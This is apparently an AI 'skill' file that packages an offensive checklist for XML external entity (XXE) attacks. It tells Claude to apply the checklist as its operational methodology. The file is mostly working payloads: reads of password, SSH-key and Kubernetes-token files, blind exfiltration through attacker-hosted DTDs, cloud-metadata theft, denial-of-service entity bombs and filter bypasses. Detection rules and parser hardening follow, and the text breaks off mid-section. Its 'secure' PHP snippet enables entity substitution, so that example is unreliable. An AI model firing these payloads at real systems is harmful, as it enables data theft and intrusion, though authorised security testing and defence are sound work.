







# SKILL: XML External Entity (XXE) Injection

## Metadata
- **Skill Name**: xxe
- **Folder**: offensive-xxe
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/xxe.md

## Description
XML External Entity injection testing checklist: classic XXE, blind XXE (out-of-band), XXE via file upload (SVG/docx), XXE in SOAP/REST, error-based XXE, XInclude attacks, and XXE filter bypass. Use for web app XXE testing and bug bounty.

## Trigger Phrases
Use this skill when the conversation involves any of:
`XXE, XML external entity, blind XXE, out-of-band XXE, XXE file upload, SVG XXE, SOAP XXE, XInclude, entity bypass, XXE SSRF, XXE file read`

## Instructions for Claude

When this skill is active:
1. Load and apply the full methodology below as your operational checklist
2. Follow steps in order unless the user specifies otherwise
3. For each technique, consider applicability to the current target/context
4. Track which checklist items have been completed
5. Suggest next steps based on findings

---

## Full Methodology

# XML External Entity (XXE) Injection

## Shortcut

- Find data entry points that you can use to submit XML data.
- Determine whether the entry point is a candidate for a classic or blind XXE. The endpoint might be vulnerable to classic XXE if it returns the parsed XML data in the HTTP response. If the endpoint does not return results, it might still be vulnerable to blind XXE, and you should set up a callback listener for your tests.
- Try out a few test payloads to see if the parser is improperly configured. In the case of classic XXE, you can check whether the parser is processing external entities. In the case of blind XXE, you can make the server send requests to your callback listener to see if you can trigger outbound interaction.
- Try to exfiltrate a common system file, like /etc/hostname.
- You can also try to retrieve some more sensitive system files, like /etc/shadow or ~/.bash_history.
- If you cannot exfiltrate the entire file with a simple XXE payload, try to use an alternative data exfiltration method.
- See if you can launch an SSRF attack using the XXE.

## Mechanisms

XML External Entity (XXE) is a vulnerability that occurs when XML parsers process external entity references within XML documents. XXE attacks target applications that parse XML input and can lead to:

- Disclosure of confidential files and data
- Server-side request forgery (SSRF)
- Denial of service attacks
- Remote code execution in some cases



XXE vulnerabilities arise from XML's Document Type Definition (DTD) feature, which allows defining entities that can reference external resources. When a vulnerable XML parser processes these entities, it retrieves and includes the external resources, potentially exposing sensitive information.

In practice, full remote code execution rarely stems from XXE alone; it typically requires language-specific gadgets—such as PHP's `expect://` wrapper or Java deserialization sinks—which XXE merely helps reach.



Types of XXE attacks include:

- **Classic XXE**: Direct extraction of data visible in responses
- **Blind XXE**: No direct output, but data can be exfiltrated through out-of-band techniques
- **Error-based XXE**: Leveraging error messages to extract data
- **XInclude-based XXE**: Using XInclude when direct DTD access is restricted



## Hunt

### Finding XXE Vulnerabilities

#### Additional Discovery Methods

- Convert content type from "application/json"/"application/x-www-form-urlencoded" to "application/xml"
- Check file uploads that allow docx/xlsx/pdf/zip - unzip the package and add XML code into the XML files
- Test SVG file uploads for XML injection
- Check RSS feeds functionality for XML injection
- Fuzz for /soap API endpoints
- Test SSO integration points for XML injection in SAML requests/responses

#### Identify XML Injection Points



- **API Endpoints**: Look for endpoints accepting XML data
- **File Uploads**: Features accepting XML-based files (DOCX, SVG, XML, etc.)
- **Format Conversion**: Services converting to/from XML formats
- **Legacy Interfaces**: SOAP web services, XML-RPC
- **Hidden XML Parsers**: Look for parameters that might be processed as XML behind the scenes
- **Content Type Conversion**: Endpoints that accept JSON but may process XML with proper Content-Type

#### Test Basic XXE Patterns

For each potential injection point, test with simple payloads:

- **Classic XXE (file retrieval)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>&xxe;</root>
  ```

  or

  ```xml
  <!DOCTYPE ase [ <!ENTITY %test SYSTEM "http://sib.com/sib"> %test; ]>
  <example>&test;</example>
  ```

- **Blind XXE (out-of-band detection)**:

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE test [
    <!ENTITY % xxe SYSTEM "http://attacker-server.com/malicious.dtd">
    %xxe;
  ]>
  <root>test</root>
  ```

- **XInclude attack** (when unable to define a DTD):
  ```xml
  <root xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </root>
  ```

#### Billion Laughs Attack Steps

1. Capture the request in your proxy tool
2. Send it to repeater and convert body to XML format
3. Check the Accept header and modify to Application/xml if needed
4. Convert JSON to XML if no direct XML input is possible
5. Insert the billion laughs payload between XML tags
6. Adjust entity references (lol1 to lol9) to control DoS intensity

#### Check Alternative XML Formats

- **SVG files**:

  ```xml
  <?xml version="1.0" standalone="yes"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/hostname" >
  ]>
  <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
  </svg>
  ```

  or

  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE example [
    <!ENTITY test SYSTEM "file:///etc/shadow">
  ]>
  <svg width="500" height="500">
    <circle cx="50" cy="50" r="40" fill="blue" />
    <text font-size="16" x="0" y="16">&test;</text>
  </svg>
  ```

- **DOCX/XLSX files**: Modify internal XML files (e.g., word/document.xml)
- **SOAP messages**: Test XXE in SOAP envelope

#### SAML 2.0 XXE Testing

SAML assertions are prime XXE targets. Test both requests and responses:

**AuthnRequest XXE:**

```xml
<samlp:AuthnRequest
  xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
  xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
  ID="_xxe" Version="2.0" IssueInstant="2025-01-01T00:00:00Z">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
  <saml:Issuer>&xxe;</saml:Issuer>
</samlp:AuthnRequest>
```

**Response Assertion XXE:**

```xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol">
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/exfil">]>
  <saml:Assertion>
    <saml:AttributeValue>&xxe;</saml:AttributeValue>
  </saml:Assertion>
</samlp:Response>
```

**Encrypted Assertion XXE (Response Wrapping):**

```xml
<!-- Inject XXE before encryption, Service Provider decrypts and processes -->
<saml:EncryptedAssertion>
  <!DOCTYPE root [<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd"> %dtd;]>
  <EncryptedData>...</EncryptedData>
</saml:EncryptedAssertion>
```

#### E-book Format Exploitation (EPUB)

EPUB files are ZIP archives containing XML. Target library management systems and e-reader apps:

```xml
<!-- content.opf inside EPUB -->
<?xml version="1.0"?>
<!DOCTYPE package [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<package xmlns="http://www.idpf.org/2007/opf" version="3.0">
  <metadata>
    <dc:title>&xxe;</dc:title>
  </metadata>
</package>
```

**Attack workflow:**

1. Create legitimate EPUB file
2. Extract contents (it's a ZIP)
3. Inject XXE into `META-INF/container.xml` or `content.opf`
4. Re-zip and upload to target (library systems, e-commerce platforms)

#### Apple Universal Links XXE

iOS deep linking configuration files:

```xml
<!-- apple-app-site-association generated from XML -->
<?xml version="1.0"?>
<!DOCTYPE config [
  <!ENTITY xxe SYSTEM "file:///var/mobile/Containers/Data/Application/config.plist">
]>
<config>
  <applinks>&xxe;</applinks>
</config>
```

### Advanced XXE Hunting

#### Parameter Entity Testing

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
  %eval;
  %exfil;
]>
<data>test</data>
```

#### Error-Based XXE

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

#### XXE via Content-Type Manipulation

Try changing Content-Type header from:

```
Content-Type: application/json
```

to:

```
Content-Type: application/xml
```

or:

```
Content-Type: text/xml
```

## Chaining and Escalation

### Cloud-Native & Kubernetes XXE

#### Kubernetes Admission Webhook XXE

ValidatingWebhookConfiguration and MutatingWebhookConfiguration receive XML-formatted requests:

```yaml
# Vulnerable admission webhook
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  annotations:
    # Webhook receives and parses this XML
    config: |
      <?xml version="1.0"?>
      <!DOCTYPE root [
        <!ENTITY xxe SYSTEM "file:///var/run/secrets/kubernetes.io/serviceaccount/token">
      ]>
      <config>&xxe;</config>
```

**Exploitation flow:**

```bash
# 1. Create pod with XXE payload in annotation
kubectl apply -f evil-pod.yaml

# 2. Admission webhook receives XML, processes with vulnerable parser
# 3. Service account token exfiltrated

# 4. Use token for privilege escalation
curl -k https://kubernetes.default.svc/api/v1/namespaces/default/pods \
  -H "Authorization: Bearer $(cat token)"
```

**ConfigMap XXE:**

```yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: xxe-config
data:
  config.xml: |
    <?xml version="1.0"?>
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/kubernetes/manifests/kube-apiserver.yaml">]>
    <config>&xxe;</config>
```

#### CI/CD Pipeline XXE

**Jenkins XML Config Parsing:**

```xml
<!-- config.xml for Jenkins job -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "file:///var/jenkins_home/secrets/master.key">
]>
<project>
  <description>&xxe;</description>
</project>
```

**GitLab CI Artifact Processing:**

```yaml
# .gitlab-ci.yml
test:
  script:
    - echo '<?xml version="1.0"?><!DOCTYPE r [<!ENTITY xxe SYSTEM "file:///etc/gitlab-runner/config.toml">]><root>&xxe;</root>' > report.xml
  artifacts:
    reports:
      junit: report.xml # Parsed by GitLab
```

**GitHub Actions Workflow:**

```yaml
# Vulnerable action that processes XML artifacts
- name: Parse XML Report
  uses: vulnerable/xml-parser@v1
  with:
    xml-file: |
      <?xml version="1.0"?>
      <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///home/runner/.ssh/id_rsa">]>
      <testsuites>&xxe;</testsuites>
```

**Maven/Gradle Dependency Confusion:**

```xml
<!-- malicious pom.xml in supply chain -->
<?xml version="1.0"?>
<!DOCTYPE project [
  <!ENTITY xxe SYSTEM "http://attacker.com/exfil?data=">
]>
<project>
  <modelVersion>4.0.0</modelVersion>
  <name>&xxe;</name>
</project>
```

### Parser Misconfigurations

- **DTD Processing Enabled**: XML parsers with DTD processing enabled
- **External Entity Resolution**: Parsers allowing external entity references
- **XInclude Support**: Enabled processing of XInclude statements
- **Missing Entity Validation**: No validation of entity expansion

### File Disclosure via XXE

- **Local File Access**: Reading sensitive system files
  - `/etc/passwd` (Unix user information)
  - `/etc/shadow` (password hashes on Linux)
  - `C:\Windows\system32\drivers\etc\hosts` (Windows hosts file)
  - Application configuration files
  - Source code files
  - Database credentials

### SSRF via XXE



- **Internal Network Access**: Scanning internal systems
- **Cloud Metadata Access**: Accessing metadata services

  **AWS IMDSv2** (Token-based, harder via XXE):

  ```xml
  <!-- IMDSv1 still works in legacy environments -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name">]>

  <!-- IMDSv2 requires PUT request for token first -->
  <!-- Most XML parsers can't make PUT requests, limiting XXE exploitation -->
  ```

  **Azure Instance Metadata**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/metadata/instance?api-version=2021-02-01">]>
  <!-- Requires Metadata: true header, may fail in XXE -->
  ```

  **GCP Metadata v2 (2024+)**:

  ```xml
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token">]>
  <!-- Now requires Metadata-Flavor: Google header -->
  <!-- Classic XXE can't set custom headers, use SSRF chain -->
  ```

  **Workarounds for header-protected metadata:**

  ```xml
  <!-- Use jar:// protocol (Java) to bypass some restrictions -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "jar:http://metadata.google.internal!/computeMetadata/v1/instance/hostname">]>

  <!-- Or chain with open redirect on same domain -->
  <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://vulnerable-app.com/redirect?url=http://169.254.169.254/latest/meta-data/">]>
  ```

### Denial of Service

- **Billion Laughs Attack**: Exponential entity expansion

  ```xml
  <!DOCTYPE data [
    <!ENTITY lol "lol">
    <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  ]>
  <data>&lol3;</data>
  ```

- **Quadratic Blowup Attack**: Large string repeating

  ```xml
  <!DOCTYPE data [
    <!ENTITY a "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa">
  ]>
  <data>&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;</data>
  ```

- **External Resource DoS**: Loading large or never-ending external resources

## Bypass Techniques

### Filter Evasion Techniques

- **Case Variation**:

  ```xml
  <!docTypE test [ <!ENTity xxe SYSTEM "file:///etc/passwd"> ]>
  ```

- **Alternative Protocol Schemes**:

  ```
  file:///
  php://filter/convert.base64-encode/resource=
  gopher://
  jar://
  netdoc://
  ```

- **URL Encoding**:
  ```xml
  <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:%2F%2F%2Fetc%2Fpasswd"> ]>
  ```

### XXE in CDATA Sections

```xml
<![CDATA[<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfil;
]>]]>
```

### XXE via XML Namespace

```xml
<ns1:root xmlns:ns1="http://example.com">
  <ns1:data xmlns:ns1="http://example.com" xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
  </ns1:data>
</ns1:root>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

## Methodologies

### Tools

#### XXE Detection and Exploitation Tools

- **OWASP ZAP**: XML External Entity scanner
- **Burp Suite Pro**: XXE scanner extension
- **XXEinjector**: Automated XXE testing tool
- **XXE-FTP**: Out-of-band XXE exploitation framework
- **dtd.gen**: DTD generator for XXE exfiltration
- **oxml_sec**: Tool for testing XXE in OOXML files (docx, xlsx, pptx)
- **Burp Suite Pro 2025.2+ (“Burp AI”)**: automatically chains scanner-found XXE with out-of-band callbacks for quicker triage.
- **Semgrep rules (java-xxe, python-xxe)**: static analysis that flags un-hardened XML parser usage.

#### Setup Tools for Out-of-Band Testing

- **Interactsh**: Interaction collection server
- **Burp Collaborator**: For out-of-band data detection
- **XSS Hunter**: Can be repurposed for XXE callbacks
- **SimpleHTTPServer**: Quick Python HTTP server setup

### Testing Methodologies



#### Basic Testing Process

1. **Identify XML Processing**: Locate endpoints accepting XML input
2. **Setup Monitoring**: Prepare out-of-band detection for blind XXE
3. **Injection Testing**: Test with basic XXE payloads
4. **Result Analysis**: Check for direct data exposure or callbacks
5. **Vulnerability Confirmation**: Attempt to read a harmless file like `/etc/hostname`

#### Advanced Exploitation Techniques

##### Data Exfiltration (for Blind XXE)



1. Host a malicious DTD file on your server:

   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
   %eval;
   %exfil;
   ```

2. Use an XXE payload that references your DTD:
   ```xml
   <?xml version="1.0"?>
   <!DOCTYPE data [
     <!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd">
     %dtd;
   ]>
   <data>test</data>
   ```

##### XXE OOB with DTD and PHP filter

Payload:

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://your-attacker-server.com/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

External DTD (`http://your-attacker-server.com/dtd.xml`):

```dtd
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://your-attacker-server.com/log.php?data=%data;'>">
```

##### Error-Based Exfiltration

1. Host a malicious DTD with error-based exfiltration:
   ```xml
   <!ENTITY % file SYSTEM "file:///etc/passwd">
   <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
   %eval;
   %error;
   ```

##### XXE for SSRF

Use XXE to trigger internal requests:

```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://internal-service:8080/admin"> ]>
```

##### XXE Inside SOAP

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```

##### XXE PoC Examples

```xml
<!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
```

##### XXE via File Upload (SVG Example)

Create an SVG file with the payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<svg width="512px" height="512px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="14" x="0" y="16">&xxe;</text>
</svg>
```

Upload it where SVG is allowed (e.g., profile picture, comment attachment).

#### Comprehensive XXE Testing Checklist

1. **Basic entity testing**:
   - Test file access via `file://` protocol
   - Test network access via `http://` protocol

2. **Content delivery**:
   - Direct XXE with immediate results
   - Out-of-band XXE with remote DTD
   - Error-based XXE for data extraction

3. **Protocol testing**:
   - Test various protocols (file, http, https, ftp, etc.)
   - Attempt restricted protocol access

4. **Format variations**:
   - Test XXE in SVG uploads
   - Test XXE in document formats (DOCX, XLSX, PDF)
   - Test SOAP/XML-RPC interfaces

5. **Bypasses**:
   - Try character encoding tricks
   - Use nested entities
   - Apply URL encoding
   - Test with namespace manipulations

## Remediation Recommendations

- Disable DTD processing completely if possible
- Disable external entity resolution
- Implement proper input validation
- Use safe XML parsers that disable XXE by default
- Apply patch management to XML parsers
- Use newer API formats like JSON where feasible
- **Network egress allow-list**: Restrict outbound traffic from XML-parsing hosts to block blind-XXE callbacks.
- **API Gateway XML Protection**: Implement XML threat protection at the gateway layer

### API Gateway XML Threat Protection

#### AWS API Gateway

```yaml
# API Gateway Request Validator
RequestValidator:
  Type: AWS::ApiGateway::RequestValidator
  Properties:
    ValidateRequestBody: true
    ValidateRequestParameters: true

# Lambda authorizer to inspect XML
def lambda_handler(event, context):
    body = event.get('body', '')

    # Block DTD declarations
    if '<!DOCTYPE' in body or '<!ENTITY' in body:
        return {
            'statusCode': 400,
            'body': 'XML DTD not allowed'
        }

    # Size limit
    if len(body) > 100000:  # 100KB
        return {
            'statusCode': 413,
            'body': 'Request too large'
        }
```

#### Kong Gateway

```yaml
plugins:
  - name: xml-threat-protection
    config:
      source_size_limit: 1000000 # 1MB max
      name_size_limit: 255 # Max element name length
      child_count_limit: 100 # Max child elements
      attribute_count_limit: 50 # Max attributes per element
      entity_expansion_limit: 0 # Disable entity expansion
      external_entity_limit: 0 # Disable external entities
      dtd_processing: false # Disable DTD
```

#### Apigee Edge

```xml
<!-- XMLThreatProtection policy -->
<XMLThreatProtection name="XML-Threat-Protection">
  <Source>request</Source>
  <StructureLimits>
    <NodeDepth>10</NodeDepth>
    <AttributeCountPerElement>5</AttributeCountPerElement>
    <NamespaceCountPerElement>3</NamespaceCountPerElement>
    <ChildCount includeComment="true" includeElement="true" includeProcessingInstruction="true" includeText="true">10</ChildCount>
  </StructureLimits>
  <ValueLimits>
    <Text>1000</Text>
    <Attribute>100</Attribute>
    <NamespaceURI>100</NamespaceURI>
    <Comment>500</Comment>
    <ProcessingInstructionData>500</ProcessingInstructionData>
  </ValueLimits>
</XMLThreatProtection>
```

#### Nginx + ModSecurity

```nginx
# ModSecurity rules for XXE
SecRule REQUEST_BODY "@rx <!ENTITY" \
    "id:1000,phase:2,deny,status:403,msg:'XXE Attack Detected'"

SecRule REQUEST_BODY "@rx <!DOCTYPE.*\[" \
    "id:1001,phase:2,deny,status:403,msg:'DTD Declaration Blocked'"
```

### Parser default hardening (2024-2025)

- **libxml2 ≥ 2.13**: `XML_PARSE_NO_XXE` disables all external entity resolution by default.
- **Python ≥ 3.13**: standard `xml.*` modules forbid external entities; enable only via `feature_external_ges`.
- **.NET 8**: project templates set `XmlReaderSettings.DtdProcessing = Prohibit`.
- **Java 22**: `XMLConstants.FEATURE_SECURE_PROCESSING` is enabled and `external-general-entities` is `false`.

### Cloud-metadata nuance

AWS IMDSv2 now requires a session token. To exploit metadata via XXE you must first obtain a token with  
`PUT /latest/api/token` and then pass it in the `X-aws-ec2-metadata-token` header of subsequent requests.

### Secure Parser Configuration (practical snippets)

```java
// Java (SAX/StAX/DOM)
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

```python
# Python – prefer defusedxml
from defusedxml.ElementTree import fromstring
fromstring(xml_data)
```

```csharp
// .NET
var settings = new XmlReaderSettings
{
    DtdProcessing = DtdProcessing.Prohibit,
    XmlResolver = null
};
using var reader = XmlReader.Create(stream, settings);
```

```go
// Go – standard encoding/xml does not resolve external entities
// but avoid streaming untrusted data into custom resolvers
type Safe struct{ }
```

```php
// PHP – libxml
$old = libxml_disable_entity_loader(true);
$xml = simplexml_load_string($data, "SimpleXMLElement", LIBXML_NONET | LIBXML_NOENT);
libxml_disable_entity_loader($old);
```


---

# Additional Techniques (merged from hunt-xxe/SKILL.md)

## Crown Jewel Targets

XXE is a critical-severity vulnerability that consistently pays at the top of bug bounty scales ($5,000–$30,000+) due to its direct path to sensitive data exfiltration and SSRF. Highest-value targets:

